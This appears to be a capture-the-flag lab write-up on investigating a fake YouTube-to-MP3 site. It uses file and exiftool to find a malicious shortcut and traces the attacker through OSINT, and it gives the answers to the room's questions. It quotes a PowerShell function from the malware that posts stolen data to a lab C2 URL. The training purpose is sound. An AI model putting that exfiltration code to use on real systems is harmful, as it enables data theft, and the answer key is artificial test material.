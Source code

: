 # Maybe SOC-mas Music, He Thought, Doesn't Come from a Store?

## The Story
> McSkidy tapped keys with a confident grin,  
> A suspicious website, now where to begin?  
> She'd seen sites like this, full of code and of grime,  
> Shady domains, and breadcrumbs easy to find.

McSkidy's fingers flew across the keyboard, her eyes narrowing at the suspicious website on her screen. She had seen dozens of malware campaigns like this. This time, the trail led straight to someone who went by the name **"Glitch."**

"Too easy," she muttered with a smirk.

"I still have time," she said, leaning closer to the screen. "Maybe there's more."

Little did she know, beneath the surface lay something far more complex than a simple hacker's handle. This was just the beginning of a tangled web unraveling everything she thought she knew.

---

## Learning Objectives
- Learn how to investigate malicious link files.
- Understand OPSEC and common OPSEC mistakes.
- Learn to track and attribute digital identities in cyber investigations.

---

## Investigating the Website
The website under investigation is a **YouTube-to-MP3 converter** being shared amongst the organizers of SOC-mas. Reports have raised concerns about its safety, and you've decided to dig deeper.

- **Task**: Access the website by visiting `MACHINE_IP` using a web browser.

---

## Getting Some Tunes

Let's find out by pasting any YouTube link in the search form and pressing the **"Convert"** button.  
Then select either the `mp3` or `mp4` option. This will download a file that we can use for investigation.  

For example, you can use the following YouTube link:  
[https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ).

### Steps:
1. Once the file is downloaded, navigate to your **Downloads** folder using the terminal.
2. Use the following command to extract the contents of the downloaded zip file:
   ```bash
   unzip download.zip -d download

3. After extracting, you will see two files:
   - `song.mp3`
   - `somg.mp3`

4. Run the file command on each file to check its type. For example, start by checking song.mp3:
   ```bash
   file song.mp3
   ```
   **Output**
   ```bash
   song.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
   ```

   Next, check the second file `somg.mp3`
   ```bash
   file somg.mp3
   ```
   **Output**
   ```bash
   somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
   ```

## Questions and Answers
1. **Looks like the song.mp3 file is not what we expected! Run `exiftool song.mp3` in your terminal to find out the author of the song. Who is the author?**   
   <details>
      <summary>Click to reveal the answer</summary> Tyler Ramsbey
   </details>

2. **The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?**

   Search the following link:  
   [https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

   We found a function in the script that sends the stolen info to a C2 server:  
   ```powershell
   function Send-InfoToC2Server {
       $c2Url = "http://papash3ll.thm/data"
       $data = Get-Content -Path $infoFilePath -Raw

       # Using Invoke-WebRequest to send data to the C2 server
       Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
   }
   ```
   <details>
      <summary>Click to reveal the answer</summary> http://papash3ll.thm/data
   </details>

3. **Who is M.M? Maybe his Github profile page would provide clues?**

   Investigating his GitHub profile ([https://github.com/MM-WarevilleTHM](https://github.com/MM-WarevilleTHM)), I found a README file containing the following introduction:
   > Hi, I’m M.M, also known as Mayor Malware. I run things in Wareville Town.
   <details>
      <summary>Click to reveal the answer</summary> Mayor Malware
   </details>

4. **What is the number of commits on the GitHub repo where the issue was raised?**

   Check out the commit history here: [https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/commits/main/](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/commits/main/)

   <details>
      <summary>Click to reveal the answer</summary>
      1
   </details>

## Conclusions

In this challenge, we explored various aspects of cyber investigation, focusing on analyzing suspicious files, tracking digital identities, and understanding how malicious scripts operate. We learned the importance of examining metadata, using tools like `exiftool` and `file` to gather information about the files involved, and how seemingly innocent files can sometimes hide malicious code or redirections.

By investigating the GitHub profiles, commit history, and the PowerShell script, we gained a deeper understanding of how attackers might operate and how we can track their actions back to their origins. This exercise reinforced the importance of thorough investigation, keeping in mind the potential OPSEC mistakes that might lead us to the answers.



